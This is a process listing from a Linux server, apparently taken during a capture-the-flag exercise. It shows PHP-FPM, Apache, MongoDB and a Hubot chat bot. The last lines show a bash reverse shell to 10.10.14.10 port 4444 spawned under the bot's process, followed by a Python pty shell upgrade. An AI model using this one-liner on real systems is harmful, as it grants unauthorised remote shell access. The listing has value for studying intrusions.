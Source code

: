 root        1127  0.2  1.4 571552 26320 ?        Ssl  07:08   0:21 /usr/libexec/platform-python -Es /usr/sbin/tuned -l -P
root        1133  0.0  0.6 217000 12284 ?        Ss   07:08   0:00 php-fpm: master process (/etc/php-fpm.conf)
apache      1220  0.0  0.5 245944  9272 ?        S    07:08   0:00  _ php-fpm: pool www
apache      1221  0.0  0.4 307536  8736 ?        S    07:08   0:00  _ php-fpm: pool www
apache      1222  0.0  0.4 317624  8712 ?        S    07:08   0:00  _ php-fpm: pool www
apache      1223  0.0  0.5 309568  9924 ?        S    07:08   0:01  _ php-fpm: pool www
apache      1224  0.0  0.4 317784  8664 ?        S    07:08   0:00  _ php-fpm: pool www
apache      3331  0.0  0.4 319812  8644 ?        S    07:23   0:00  _ php-fpm: pool www
root        1136  0.0  0.3  94472  6128 ?        Ss   07:08   0:00 /usr/sbin/sshd -D -oCiphers=aes256-gcm@openssh.com,chacha20-poly1305@openssh.com,aes256-ctr,aes256-cbc,aes128-gcm@openssh.com,aes128-ctr,aes128-cbc -oMACs=hmac-sha2-256-etm@openssh.com,hmac-sha1-etm@openssh.com,umac-128-etm@openssh.com,hmac-sha2-512-etm@openssh.com,hmac-sha2-256,hmac-sha1,umac-128@openssh.com,hmac-sha2-512 -oGSSAPIKexAlgorithms=gss-curve25519-sha256-,gss-nistp256-sha256-,gss-group14-sha256-,gss-group16-sha512-,gss-gex-sha1-,gss-group14-sha1- -oKexAlgorithms=curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group-exchange-sha256,diffie-hellman-group14-sha256,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1 -oHostKeyAlgorithms=ecdsa-sha2-nistp256,ecdsa-sha2-nistp256-cert-v01@openssh.com,ecdsa-sha2-nistp384,ecdsa-sha2-nistp384-cert-v01@openssh.com,ecdsa-sha2-nistp521,ecdsa-sha2-nistp521-cert-v01@openssh.com,ssh-ed25519,ssh-ed25519-cert-v01@openssh.com,rsa-sha2-256,rsa-sha2-256-cert-v01@openssh.com,rsa-sha2-512,rsa-sha2-512-cert-v01@openssh.com,ssh-rsa,ssh-rsa-cert-v01@openssh.com -oPubkeyAcceptedKeyTypes=ecdsa-sha2-nistp256,ecdsa-sha2-nistp256-cert-v01@openssh.com,ecdsa-sha2-nistp384,ecdsa-sha2-nistp384-cert-v01@openssh.com,ecdsa-sha2-nistp521,ecdsa-sha2-nistp521-cert-v01@openssh.com,ssh-ed25519,ssh-ed25519-cert-v01@openssh.com,rsa-sha2-256,rsa-sha2-256-cert-v01@openssh.com,rsa-sha2-512,rsa-sha2-512-cert-v01@openssh.com,ssh-rsa,ssh-rsa-cert-v01@openssh.com -oCASignatureAlgorithms=ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,ssh-ed25519,rsa-sha2-256,rsa-sha2-512,ssh-rsa
root        1137  0.0  0.1 101776  2732 ?        Ssl  07:08   0:00 /usr/sbin/gssproxy -D
root        1215  0.0  0.3  92624  6016 ?        Ss   07:08   0:00 /usr/lib/systemd/systemd-logind
root        1216  0.0  0.4 331432  7428 ?        Ssl  07:08   0:00 /usr/libexec/accounts-daemon[0m
mongod      1226  0.8  3.8 1351956 70976 ?       Sl   07:08   1:30 /usr/bin/mongod -f /etc/mongod.conf
root        1293  0.0  0.5 285284 10596 ?        Ss   07:08   0:00 /usr/sbin/httpd -DFOREGROUND
apache      7319  0.0  0.3 298332  6936 ?        S    08:30   0:00  _ /usr/sbin/httpd -DFOREGROUND
apache      7320  0.0  0.3 299708  7240 ?        S    08:30   0:00  _ /usr/sbin/httpd -DFOREGROUND
apache      7321  0.0  0.8 1946824 15056 ?       Sl   08:30   0:01  _ /usr/sbin/httpd -DFOREGROUND
apache      7322  0.0  0.5 1815688 10932 ?       Sl   08:30   0:01  _ /usr/sbin/httpd -DFOREGROUND
apache      7323  0.0  0.5 1815688 10816 ?       Sl   08:30   0:01  _ /usr/sbin/httpd -DFOREGROUND
apache      7535  0.0  0.9 1815688 17076 ?       Sl   08:30   0:01  _ /usr/sbin/httpd -DFOREGROUND
root        1302  0.0  0.3 211616  7208 ?        Ssl  07:08   0:01 /usr/sbin/rsyslogd -n
root        1311  0.0  0.1  44004  2400 ?        Ss   07:08   0:00 /usr/sbin/atd -f
root        1319  0.0  0.1  36952  3260 ?        Ss   07:08   0:00 /usr/sbin/crond -n
root        1654  0.0  0.3 126088  5856 ?        S    07:08   0:00  _ /usr/sbin/CROND -n
dwight      1797  0.0  0.1  12724  2300 ?        Ss   07:08   0:00      _ /bin/sh -c /home/dwight/bot_restart.sh >> /home/dwight/hubot/.hubot.log 2>&1
dwight      1804  0.0  0.1  12724  2536 ?        S    07:08   0:00          _ /bin/bash /home/dwight/bot_restart.sh
dwight      2398  0.0  0.1  12724  2560 ?        S    07:09   0:00              _ bash /home/dwight/hubot/start_bot.sh
dwight      2400  0.0  1.1 588960 21784 ?        Sl   07:09   0:02              |   _ node /home/dwight/hubot/node_modules/coffeescript/bin/coffee /home/dwight/hubot/node_modules/.bin/hubot -a rocketchat                                                                                                           
dwight      2466  0.0  0.1  12724  2640 ?        S    07:10   0:00              _ bash /home/dwight/hubot/start_bot.sh
dwight      2468  0.0  2.2 628248 41624 ?        Sl   07:10   0:03              |   _ node /home/dwight/hubot/node_modules/coffeescript/bin/coffee /home/dwight/hubot/node_modules/.bin/hubot -a rocketchat                                                                                                           
dwight     11119  0.0  0.1  12724  2828 ?        S    09:28   0:00              |       _ /bin/sh -c /bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1
dwight     11120  0.0  0.2  25440  4940 ?        S    09:28   0:00              |           _ /bin/bash -i
dwight     11156  0.0  0.4  45520  8772 ?        S    09:28   0:00              |               _ python3 -c import pty;pty.spawn("/bin/bash");